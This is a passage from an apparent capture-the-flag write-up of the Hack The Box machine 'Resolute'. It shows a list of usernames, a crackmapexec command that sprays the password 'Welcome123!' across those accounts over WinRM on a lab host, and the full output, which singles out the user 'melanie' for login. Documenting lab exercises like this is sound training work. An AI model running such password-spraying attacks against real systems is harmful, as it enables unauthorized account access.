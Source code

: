```bash
per
ryan
sally
steve
sunita
ulf
zach
```

Started password spraying on the `winrm`<br/>
```bash
root@w0lf:~/CTF/HTB/Boxes/Resolute# crackmapexec winrm 10.10.10.169 -u usernames.txt -p 'Welcome123!'
WINRM       10.10.10.169    5985   NONE             [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   NONE             [-] None\abigail:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\Administrator:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\angela:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\annette:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\annika:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\claire:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\claude:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\felicia:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\fred:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\Guest:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\gustavo:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\marcus:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\marko:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\melanie:Welcome123! "Access is denied.  (extended fault data: {'transport_message': 'Bad HTTP response returned from server. Code 500', 'http_status_code': 500, 'wsmanfault_code': '5', 'fault_code': 's:Sender', 'fault_subcode': 'w:AccessDenied'})"
WINRM       10.10.10.169    5985   NONE             [-] None\naoki:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\paulo:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\per:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\ryan:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\sally:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\steve:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\sunita:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\ulf:Welcome123! "the specified credentials were rejected by the server"
WINRM       10.10.10.169    5985   NONE             [-] None\zach:Welcome123! "the specified credentials were rejected by the server"
```
We get `Access is Denied` for use `melanie` so let's try login with that.